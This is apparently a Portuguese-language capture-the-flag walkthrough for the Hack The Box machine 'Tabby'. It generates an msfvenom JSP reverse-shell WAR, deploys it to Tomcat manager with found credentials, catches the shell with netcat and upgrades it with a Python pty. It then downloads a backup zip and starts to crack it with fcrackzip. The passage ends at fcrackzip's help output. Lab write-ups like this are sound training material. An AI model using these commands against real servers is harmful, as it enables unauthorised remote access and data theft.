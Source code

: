 agora podemos fazer o shell reverso
igual nas outras maquinas

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 <IP> LPORT=4444 -f war > exploit.war
```

Depois fazemos upload do arquivo war

```bash
curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file exploit.war "http://10.10.10.194:8080/manager/text/deploy?path=/exploit.war"
```

em outra aba do terminal, deixe escutando na porta que desejar

```bash
nc -nvlp 4444
```
com o netcat

Quando estiver ouvindo a porta,  vá no navegador e chame o arquivo que vc acabou de fazer o upload

```bash
http://10.10.10.194:8080/exploit.war/
```
volte no terminal, ele vai ter conectado via shell
agora execute o shell reverso em python para o term

```bash
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.194] 50476
python3 -c "import pty;pty.spawn('/bin/bash')"
```

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
tomcat@tabby:/var/lib/tomcat9$ 
```

Agora entre em  /var/www/files

vc vai encontrar o arquivo  16162020_backup.zip

acesse no navegador

10.10.10.194/files/16162020_backup.zip

e baixe o arquivo zip para sua maquina

ele ta protegido com senha

vai ser necessário usar o  `fcrackzip` nele se não tiver ele instalado, basta, instalar:

# apt-get install fcrackzip

```bash
 root  ~  fcrackzip -h

fcrackzip version 1.0, a fast/free zip password cracker
written by Marc Lehmann <pcg@goof.com> You can find more info on
http://www.goof.com/pcg/marc/

USAGE: fcrackzip
          [-b|--brute-force]            use brute force algorithm
          [-D|--dictionary]             use a dictionary
          [-B|--benchmark]              execute a small benchmark
          [-c|--charset characterset]   use characters from charset
          [-h|--help]                   show this message
          [--version]                   show the version of this program
          [-V|--validate]               sanity-check the algorithm
          [-v|--verbose]                be more verbose
          [-p|--init-password string]   use string as initial password/file
```